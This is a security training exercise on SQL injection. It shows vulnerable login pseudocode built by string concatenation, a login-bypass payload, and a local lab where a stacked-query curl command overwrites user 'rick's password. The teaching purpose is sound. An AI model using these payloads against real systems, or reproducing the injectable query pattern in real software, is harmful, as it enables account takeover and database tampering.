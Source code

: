 ## Exercise 1 - SQL Injection

SQL injection is the ability of an attacker to execute arbitrary SQL into an insecurely created query. They might do this to attempt to gain access to the system, cause destruction by deleting rows, or list vital information that they should not have access to.

The way SQL injections are constructed is by the use of escape characters such as `'` which allows an attacker to escape out of the intended query with their own input and execute another query directly against the database.

For example, let's say we had some logic such as the following (in pseudocode):

```
username := user input from HTML form
password := user input from HTML form
hashedPassword := md5(password)

sql := "select * from admins where username = '" + username "' and password = '" + hashedPassword + "' limit 1"
executeQuery(sql)
```

This is a valid SQL string that is taking user input for username and password, hashing the password and comparing the hashed password to that in the database. This is a very common way to authenticate users to a platform, but is also easily able to be abused.

Let's say we are an attacker and want to execute some arbitrary SQL into this.

1. Which field would we exploit?
2. What string would we place into that field?
3. Who would this log us in as?

<details>
  <summary>Answer</summary>

  1. We would need to chose the `username` field in this case because if we chose the password field, our exploit would be hashed before it reaches the database.
  2. We could use something similar to the following as the `username` field to gain access:
  ```
  admin' or 1=1 limit 1 --
  ```
  **Followup Question: Why do we need the `--`?**
  3. This would log us in as the first admin depending on the sort order.

</details>

# Lab

Try to exploit the endpoint `/login` using a SQL injection. A valid, but unauthorized request looks like this:

```
curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login'
```

Try to gain access as the user `rick`.

]<details>
  <summary>Answer</summary>
    Though you may not be able to execute a 1=1 type login, you can still update the password and re-login a separate time

    ```
    $ curl -XPOST -H 'Content-Type: application/json' -d "{\"username\":\"rick'; update users set password=md5('password') where username = 'rick' --\", \"password\":\"foo\"}" 'http://localhost:8080/login'
    ```

    We should get an error and that's fine, we've broken the JDBC parser and successfully changed `rick`s password to something we know: `password`. Now try loggin in with that password:

    ```
    $ curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login'
    ```

</details>

